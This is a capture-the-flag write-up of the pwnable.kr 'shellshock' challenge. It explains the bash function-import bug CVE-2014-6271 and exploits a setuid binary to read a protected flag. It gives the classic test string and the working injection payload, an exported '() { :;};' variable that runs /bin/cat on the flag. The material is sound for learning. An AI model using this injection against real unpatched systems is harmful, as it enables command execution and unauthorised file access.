 # shellshock

For those that know what shellshock (the vulnerability not the disorder) was then this had to be a relatively easy challenge. For the rest, this is pretty much unsolvable. So what was shellshock. Shellshock was a family of vulnerabilities in the bash with the most famous one being CVE-2014-6271 which was the initial one. Other ones followed since the bug was not patched properly at first.

Let's examine the vulnerability
```bash
envx='() { :;}; echo vulnerable' bash -c "echo test"
|------A------|-------B--------|-------C-----------|


A : That part sets an environment variable and the brackets after that, get the exploit ready to inject commands.
B : Arbitrary OS commands injection :)
C : BASH command “echo test” invoked with on-the-fly defined environment 
```
### Disclaimer
I changed the original flag with the custom flag "Shad3 pwnned this", it's better to exploit it yourself,
than just copy it :P.
## Exploitation
We've been given a binary which im guessing its vulnerable to shellshock but lets analyse the source code to be sure for that. 
```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}

shellshock@pwnable:~$ id
uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
shellshock@pwnable:~$ ls -la
total 980
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 116 root root             4096 Nov 12 21:34 ..
d---------   2 root root             4096 Oct 12  2014 .bash_history
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
```
We are logged in as shellshock and we want to get the flag as shellshock_pwn we are allowed to do that only if we do some magic :). Let's exploit the bug and get our flag

```python
shellshock@pwnable:~$ export x="() { :;}; /bin/cat flag "
shellshock@pwnable:~$ ./shellshock 
Shad3 pwnned this
Segmentation fault (core dumped)
shellshock@pwnable:~$ 
```